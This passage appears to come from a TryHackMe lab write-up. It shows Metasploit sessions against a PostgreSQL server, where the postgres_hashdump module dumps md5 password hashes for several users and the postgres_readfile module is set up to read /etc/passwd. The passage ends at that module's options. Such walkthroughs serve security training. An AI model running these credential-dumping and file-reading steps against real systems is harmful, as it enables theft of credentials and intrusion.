 ```bash
    -------
    PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit

[*] Auxiliary module execution completed
```

```bash
msf6 auxiliary(admin/postgres/postgres_sql) > use 15
msf6 auxiliary(scanner/postgres/postgres_hashdump) > options

Module options (auxiliary/scanner/postgres/postgres_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  postgres         yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  postgres         yes       The username to authenticate as

msf6 auxiliary(scanner/postgres/postgres_hashdump) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/postgres/postgres_hashdump) > set RHOSTS 10.10.244.60
RHOSTS => 10.10.244.60
msf6 auxiliary(scanner/postgres/postgres_hashdump) > EXPLOIT
[-] Unknown command: EXPLOIT
msf6 auxiliary(scanner/postgres/postgres_hashdump) > exploit

[+] Query appears to have run successfully
[+] Postgres Server Hashes
======================

 Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```bash
msf6 auxiliary(scanner/postgres/postgres_hashdump) > use 10
msf6 auxiliary(admin/postgres/postgres_readfile) > options

Module options (auxiliary/admin/postgres/postgres_readfile):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RFILE     /etc/passwd      yes       The remote file
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
```